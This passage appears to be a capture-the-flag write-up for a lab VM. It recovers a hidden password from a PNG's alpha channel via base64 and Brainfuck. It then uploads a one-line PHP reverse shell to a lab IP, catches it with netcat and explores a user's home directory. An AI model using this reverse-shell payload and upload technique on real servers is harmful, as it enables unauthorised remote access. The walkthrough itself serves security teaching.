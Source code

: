 Using Python's Imaging Library ([PIL](https://pillow.readthedocs.io/)) to print out RGB pixel information, I noticed that the alpha values changed from pixel to pixel for the first 48 pixels, with values in the range 48-122. In ASCII, 48 represents 0 (the lowest alphanumeric character) and 122 represents y (the highest alphanumeric character), so I isolated these values and converted them:

```python
>>> from PIL import Image
>>> im = Image.open("lostpassword.png").load()
>>> print(''.join([chr(im[i,0][3]) for i in range(48)]))
KysrKysrWz4rKysrKysrKzwtXT4rKysrLisuLS0tLS4tLi4=
```
```sh
$ echo KysrKysrWz4rKysrKysrKzwtXT4rKysrLisuLS0tLS4tLi4= | base64 -d
++++++[>++++++++<-]>++++.+.----.-..
```
Which seemed at first like some kind of cipher, but the characters jogged my memory in a different way. I had recently looked into the [JSFuck](http://www.jsfuck.com/) programming language, which uses only 6 characters. After a brief digression into esoteric programming languages, the code turned out not to be JSFuck but [Brainfuck](https://en.wikipedia.org/wiki/Brainfuck). Decoding it gave the number `45100`, which was the password.

I attempted to upload a `msfvenom` payload, but the form complained about both the extension and the file size. So instead I used a tiny PHP reverse shell:

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.101/6767 0>&1'");
```
I felt a bit stupid because this is what I should have done in the first place rather than reaching straight for metasploit. And it uploaded sucessfully - we were inside the server!

The first step is to spawn a better shell, before taking a look around:

```sh
$ nc -lvp 6767
www-data@xerxes:/var/www/dev/upload$ python -c 'import pty; pty.spawn("/bin/sh")'
$ ls /home
amanpour  curtiz  delacroix
$ ls /home/amanpour
lostpassword.png  newpassword  qr  steqr.py
```
We have access to `/home/amanpour` but not the other home directories. 

```sh
$ cd /home/amanpour
$ ls -la
total 44
drwxr-xr-x 3 amanpour amanpour 4096 Mar 10 20:34 .
drwxr-xr-x 5 root     root     4096 Dec 17  2013 ..
-rwxr--r-- 1 amanpour amanpour  270 Dec 19  2013 .bash_history
-rw-r--r-- 1 amanpour amanpour  220 Dec 17  2013 .bash_logout
-rw-r--r-- 1 amanpour amanpour 3433 Dec 19  2013 .bashrc
-rw-r--r-- 1 amanpour amanpour  675 Dec 17  2013 .profile
drwx------ 2 amanpour amanpour 4096 Dec 19  2013 .ssh
-rw-r--r-- 1 amanpour amanpour 1240 Dec 18  2013 lostpassword.png
-rw-r--r-- 1 amanpour amanpour 1220 Dec 18  2013 newpassword
-rw-r--r-- 1 amanpour amanpour 1071 Dec 17  2013 qr
-rw-r--r-- 1 amanpour amanpour 1235 Dec 18  2013 steqr.py
$ cat .bash_history
file qr
python steqr.py -f qr -s hehehehe
python steqr.py -f qr-enc.png
python steqr.py -f qr -s "KysrKysrWz4rKysrKysrKzwtXT4rKysrLisuLS0tLS4tLi4="
mv qr-enc.png lostpassword.png
python steqr.py -f lostpassword.png | base64 -d
python steqr.py -f newpassword
passwd
exit
```